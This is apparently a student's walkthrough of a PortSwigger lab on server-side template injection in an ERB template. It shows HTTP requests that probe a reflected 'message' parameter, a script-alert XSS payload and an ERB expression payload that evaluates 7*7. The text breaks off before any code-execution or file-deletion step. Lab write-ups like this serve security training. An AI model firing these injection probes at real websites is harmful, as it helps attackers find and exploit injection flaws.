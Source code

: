 # Server-side template injection
https://portswigger.net/web-security/server-side-template-injection

<span style="color:yellow;font-weight:700;font-size:30px">
Exploiting server-side template injection vulnerabilities
</span>
https://portswigger.net/web-security/server-side-template-injection/exploiting


# [1.***Lab: Basic server-side template injection***](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

 This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

1. explore site. note that 
```
GET /product?productId=1 HTTP/1.1
```
yeilds "out of stock messege", with redirection to:
```
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/1.1
```

2. check for reflection with **test** payload:
GET /?message=test HTTP/1.1
response:
```
HTTP/1.1 200 OK

<div>test</div>
```

test for XSS:
```
GET /?message=<script>alert(1)</script> HTTP/1.1

```
response: **we got am alert box! we have XSS!**

3. it might be a simple XSS - test if it evaluate ERB executable math calculation:
```
GET /?message=<%=+7+*+7+%25> HTTP/1.1
```
response:
```
HTTP/1.1 200 OK

<div>49</div>
```
